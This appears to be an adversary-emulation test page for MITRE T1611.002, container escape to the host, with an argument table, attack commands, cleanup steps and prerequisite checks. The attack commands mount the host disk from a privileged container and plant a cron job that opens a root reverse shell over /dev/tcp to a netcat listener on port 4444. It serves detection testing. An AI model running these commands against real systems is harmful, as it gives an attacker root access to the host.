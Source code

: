| Name           | Description                                              | Type    | Default Value  |
| -------------- | -------------------------------------------------------- | ------- | -------------- | --------- | ----------------- |
| mount_device   | Path to the device of the host's disk to mount           | path    | /dev/dm-0      |
| mount_point    | Path where the host filesystem will be mounted           | path    | /mnt/T1611.002 |
| cron_path      | Path on the host filesystem where cron jobs are stored   | path    | /etc/cron.d    |
| cron_filename  | Filename of the cron job in cron_path                    | string  | T1611_002      |
| listen_address | IP address to listen for callback from the host system.  | string  | `ifconfig eth0 | grep inet | awk '{print $2}'` |
| listen_port    | TCP Port to listen on for callback from the host system. | integer | 4444           |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
if [ ! -d #{mount_point} ]; then mkdir #{mount_point} ; mount #{mount_device} #{mount_point}; fi
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "(hostname) " >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo "(id)\" >& /dev/tcp/#{listen_address}/#{listen_port} 0>&1'" >> #{mount_point}#{cron_path}/#{cron_filename}
netcat -l -p #{listen_port} 2>&1
```

#### Cleanup Commands:

```sh
rm #{mount_point}#{cron_path}/#{cron_filename}
umount #{mount_point}
rmdir #{mount_point}
```

#### Dependencies: Run with `sh`!

##### Description: Verify mount is installed.

##### Check Prereq Commands:

```sh
which mount
```

##### Get Prereq Commands:

```sh
if [ "" == "`which mount`" ]; then echo "mount Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install mount ; elif [ -n "`which yum`" ]; then sudo yum -y install mount ; fi ; else echo "mount installed"; fi
```

##### Description: Verify container is privileged.
